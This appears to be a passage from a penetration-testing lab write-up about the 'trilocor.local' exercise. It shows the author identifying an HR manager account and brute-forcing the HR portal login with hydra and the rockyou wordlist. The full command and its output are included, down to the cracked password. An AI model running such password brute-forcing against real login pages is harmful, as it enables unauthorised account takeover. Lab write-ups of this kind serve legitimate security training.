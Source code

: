 Going to the pr.trilocor.local subdomain, we can see smith is the hr manager.
![[Pasted image 20240731151931.png]]

Looking back at the portal.trilocor.local page, we have a login page for human resources.
![[Pasted image 20240731152019.png]]

Using hydra we can find the password for smith, using brute force.
```shell-session
# hydra -l smith -P /usr/share/wordlists/rockyou.txt portal.trilocor.local http-post-form '/index.php:username=^USER^&password=^PASS^:<form class="form" action="/index.php"'
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-07-31 15:12:07
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://portal.trilocor.local:80/index.php:username=^USER^&password=^PASS^:<form class="form" action="/index.php"

[STATUS] 838.67 tries/min, 2516 tries in 00:03h, 14341890 to do in 285:01h, 9 active
[80][http-post-form] host: portal.trilocor.local   login: smith   password: sexy101
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 7 final worker threads did not complete until end.
[ERROR] 7 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-07-31 15:15:58
```